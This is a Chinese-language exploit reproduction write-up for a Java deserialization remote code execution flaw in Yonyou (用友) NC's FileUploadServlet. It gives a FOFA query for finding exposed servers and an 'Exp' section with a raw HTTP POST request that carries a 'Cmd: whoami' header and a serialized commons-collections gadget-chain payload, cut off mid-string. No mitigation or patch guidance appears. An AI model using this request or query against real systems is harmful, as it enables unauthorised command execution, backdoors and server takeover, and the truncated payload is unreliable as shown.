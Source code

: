 
# 用友NC FileUploadServlet 反序列化RCE漏洞复现

### 0x01 产品简介

 用友 NC 是用友网络科技股份有限公司开发的一款大型企业数字化平台。

### 0x02 漏洞概述

  用友 NC nc.file.pub.imple.FileUploadServlet 反序列化漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![](assets/1701746394-d4c1eebb0d893707673ebb2c121f98b9.png)

### 0x04 漏洞复现

Exp 

```cobol
POST /servlet/~baseapp/nc.file.pub.imple.FileUploadServlet HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x01?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.collections.keyvalue.TiedMapEntry\x8a\xad\xd2\x9b9\xc1\x1f\xdb\x02\x00\x0
```
